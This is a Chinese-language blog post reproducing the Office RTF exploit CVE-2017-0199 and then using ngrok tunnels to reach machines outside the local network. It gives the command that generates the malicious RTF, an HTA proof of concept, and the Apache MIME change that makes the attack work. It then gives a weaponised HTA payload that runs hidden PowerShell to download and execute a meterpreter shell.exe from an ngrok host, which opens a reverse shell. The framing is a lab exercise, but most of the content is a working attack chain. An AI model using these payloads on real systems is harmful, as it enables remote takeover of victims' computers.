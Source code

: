 ```yaml
---
title: 对CVE-2017-0199的一次复现过程与内网穿透的利用
date: 2017-4-22 11:41:00
layout: post
tags:
- 漏洞测试
- CVE-2017-0199

---
```


    FireEye最近检测到使用CVE-2017-0199漏洞的恶意Microsoft Office RTF文档，这是以前从未发现的漏洞。
    CVE-2017-0199漏洞发布日期为2017年4月11号，受影响系统包括：

       Microsoft Office 2016
       Microsoft Office 2013
       Microsoft Office 2010
       Microsoft Office 2007
该漏洞利用OFFICE OLE对象链接技术，将包裹的恶意链接对象嵌在文档中，OFFICE调用[URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)（COM对象）将恶意链接指向的HTA文件下载到本地， [URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)通过识别响应头中content-type的字段信息最后调用mshta.exe将下载到的HTA文件执行起来。

首先我们要用到一个Python脚本用来生成CVE-20170199的利用脚本，项目地址为：[https://github.com/bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)
里面有详细的文档就不一一介绍了。
### 生成RTF文件
  使用如下命令进行生成恶意的RTF文件

  `python cve-2017-0199_toolkit.py -M gen -w test.rtf -u http://192.168.0.104/test.rtf`


### 加入POC

  在192.168.0.104根目录下创建一个为test的rtf文件，并且将如下代码写入到该文件中
  ```
  Test CVE-2017-0199
<script>
poc=new ActiveXObject("WScript.Shell");
poc.run('%SystemRoot%/system32/calc.exe ');window.close();
</script>
  ```
### 更改MIME
 在Apache安装目录下找到conf文件夹，把里面的mime.types文件中的
 >application/rtf					rtf

替换为

 >application/hta					rtf

 然后重启Apache

### 执行poc
  重启完Apache后打开恶意的RTF文件你将看到：

  ![](./../img/calc.jpg)
  wr6666 弹出了计算器

  >你以为只能弹出计算器？
  >
  >这不表结束这只是开始。

### 内网穿透
科普：

      内网穿透即NAT穿透，网络连接时术语，计算机是局域网内时，外网与内网的计算机节点需要连接通，有时就会出现不支持内网穿透。就是说映射端口,能让外网的电脑找到处于内网的电脑,提高下载速度。不管是内网穿透还是其他类型的网络穿透，都是网络穿透的统一方法来研究和解决。在百科词条NAT穿越，nat穿透中有关于网络穿透的详细信息。
-----来自百度百科

简单地说就是将内网的端口映射出去，使得外网的机器可以访问内网的资源。

内网穿透的平台有很多，比如
  >1.[NATAPP 基于 ngrok 高速内网穿透](http://natapp.cn/)
  >
  >2.[Ngrok 国内免费服务器](http://qydev.com/)
  >
  >3.[Sunny-Ngrok 内网转发](http://www.ngrok.cc/)
  >
  >4.[gotunnel.org](http://gotunnel.org/)
  >
  >5.[花生壳软件-内网也能用！内网动态域名](http://hsk.oray.com/)
  >
  >6.[网络通内网端口映射](http://www.dkys.org/)

  这里使用Ngrok进行实验
 注册方式略过。

 HTTP隧道:

 ![](./../img/ngrok-http.jpg)
 为什么要用HTTP隧道？
 >在后面使用本机的Web环境映射出去,这样就可以通过外网来访问本机的资源（放恶意RTF文件和msf生成的shellcode）

 TCP隧道:

 ![](./../img/ngrok-tcp.jpg)
  为什么要用TCP隧道？
 >让外网的机器反弹一个shell到TCP隧道然后转发到kali下，这样kali就可以控制外网机器（反弹shell用）

### 内网穿透的利用
  下载对应的客户端版本
  这里用win10测试，建立完成HTTP、TCP隧道后连接隧道，开启本机的apache服务
  他应该是长这样的：
  ![](./../img/ngrok-connect.jpg)
192.168.0.108是kali 的IP地址 4444为kali监听的地址

用msfvenom生成64位的shellcode（多少位的并不重要,可以直接使用windows/meterpreter/reverse_tcp）此处msfvenom的LHOST和LPORT应该是TCP隧道的IP和端口也就是server.ngrok.cc的IP和刚刚填写的反弹端口（测试用的是1419）
 所以它应该是这样的：

 ![](./../img/cve-2017-0199-msfvenom.jpg)

然后把shell.exe移到win10的web根目录下
然后msf应该是设置成这样的：
![](./../img/cve-2017-0199-msf.jpg)
监听的IP是本机的（TCP隧道里填写的映射ip）,端口也是TCP隧道里填写的映射端口

 然后修改下POC并改为：
  ```
  Test
  <script>
  poc=new ActiveXObject("WScript.Shell");
  poc.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://meterpreter.ngrok.cc/shell.exe\', \'c:/windows/temp/shell.exe\'); c:/windows/temp/shell.exe', 0);window.close();
  </script>

  ```
  保存为test.rtf
 >`http://meterpreter.ngrok.cc/shell.exe 是HTTP隧道把web环境映射到了http://meterpreter.ngrok.cc/所以shell.exe是在本机WEB根目录下的shell.exe`

 然后将恶意的test.rtf（这不是POC的那个test.rtf，是前文用Python脚本生成的test.rtf恶意文件），在外网的机器打开
 ***
 Then 。。。。。
 ***
 休息了下发现隧道的服务器打不开了QAQ。实验没法继续，最后一步就是在外网机器上打开，然后MS将会收到一个会话... 就不贴图了
